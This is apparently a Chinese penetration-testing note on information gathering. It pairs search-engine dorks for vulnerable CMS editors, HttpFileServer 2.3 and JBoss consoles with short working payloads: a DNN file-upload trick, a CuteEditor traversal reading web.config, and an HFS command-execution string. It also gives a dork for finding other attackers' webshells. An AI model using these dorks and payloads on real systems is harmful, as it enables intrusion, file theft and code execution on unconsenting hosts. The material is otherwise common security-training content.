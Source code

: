 # 渗透测试-信息收集
## 0x01 Introduction
>对于互联网上的网络目标信息收集，我往往希望找到一个和目标系统在同LAN的，并容易控守的服务器，甚至就是同一台服务器的应用漏洞，所以相关度、可控守难度两个属性就至关重要了。

现阶段的信息获取方式是，首先要锁定我们的最终目标，如果目标无法攻破，通过迂回包抄的方法。一是要关注同服务器其他应用，二是依照外网IP段和子域名相近性类推相关度，一层层向外拓展，直到找到可控守的目标进行内网拓展。

## 0x02 思路

1. 快速模式，快速找到漏洞点利用突破外网，进行内网渗透。
2. 普通模式，寻寻渐进进行普遍性收集，漏洞测试，寻找最优路径突破外网，进行内网渗透。

### 快速模式

无论运用什么方式进行网络目标信息收集，我们首先就是要确定目标的网络的身份信息，也就是其域名、IP地址。   
通常情况下子域名应用与终极目标相关性高，同C段IP的应用有较高的相关性，需要进行判断。   

为了快速找到可攻破的目标，我们需要借助搜索引擎。   
信息获取的方法遵循快速有效，所以一般先通过，Google，zoomeye等搜索引擎利用技巧，快速查找相关应用（子域名和C段IP）是否存在易控守的漏洞。   （sturts2、Jboss、fckeditor等），进行突破。   
#### 1.GoogleHack   
- 思路一：查找易获取控制权限的漏洞查找，struts（s2-016...）、editor
- 思路二：找Hacked的网站，或者webshell
- 思路三：配置错误，可列目录或报错信息，这样获取更权限信息。
- 思路四：Admin后台。

#### 案例：   
##### DNN CMS   
搜索规则：`inurl:Portals/0/`

EXP: 
```
http://[PATH]/Providers/HtmlEditorProviders/Fck/fcklinkgallery.aspx
通过js调用上传功能： javascript:__doPostBack('ctlURL$cmdUpload','')
上传文件(存在asp解析漏洞)：Dz4aLL.asp;me.jpg
UploadRoot:Portals/0/
```

##### FCKEditor
>搜索规则：fckeitor

##### CuteEditor
>搜索规则： `inurl:CuteSoft_Client/`
EXP:   
```
CuteSoft_Client/CuteEditor/Load.ashx?type=image&file=../../../web.config
```

##### HttpFileServer
>搜索规则：  
intext:Servertime: HttpFileServer 2.3
intext:服务器时间: HttpFileServer 2.3

EXP:   
```
http://localhost:8080/?search==%00{.exec|cmd.exe /c  echo 123 > C:\1.txt.}
ttp://localhost:8080/?search==%00{.load|c:\1.txt.}
```

##### JBoss
>搜索规则：
inurl:status EJBInvokerServlet   
intitle:"tomcat status"   
inurl:jmx-console   
/invoker/JMXInvokerServlet   
status?full=true   
intitle:"tomcat status"  intext:"jbossupdate"   (webinfo console jsp_info.jsp log_info.jsp)   
/invoker/JMXInvokerServlet   
jmx-console   
web-console   


##### 列目录
>搜索规则：   
intext:转到父目录   
intitle:index of /   

##### 搜索别人的shell
>搜索规则：   
intitle:Phantom Hackers.PH intext:password filetype:php

#### 2.Zoomeye
要学会几个关键词的使用，icdr、country、app等

## 普通模式
锁定目标的网络位置（域名、IP地址），我就要开始逐渐拓展相关目标范围，并进行深度有效的信息收集。
### (1)拓展网络目标范围
以点拓面
1. 同服务器其它Web应用
2. 主页链接网站
3. 子域名（2、3...级）
4. C段主机（或已知目标的IP段）
5. 移动App分析获取服务器地址
### (2)获取基本信息
1. 位置信息（IP地址、域名）
2. 扫描开放端口、服务及版本
### (3)深度挖掘信息
1. 识别设备类型
2. 识别操作系统
3. 识别Web容器
4. 识别Web应用(CMS)、组件及其版本
### (4)漏洞测试
1. 已知漏洞测试
- Web
- Databse（Mysql、SQLserver）
- 远程管理（SSH、RDP）
2. 常见漏洞测试（主要是Web方向）
- 弱口令（常见的默认密码）
- SQLinject
- 文件包含
- 文件上传过滤不严格
- 模板注入
- 模板管理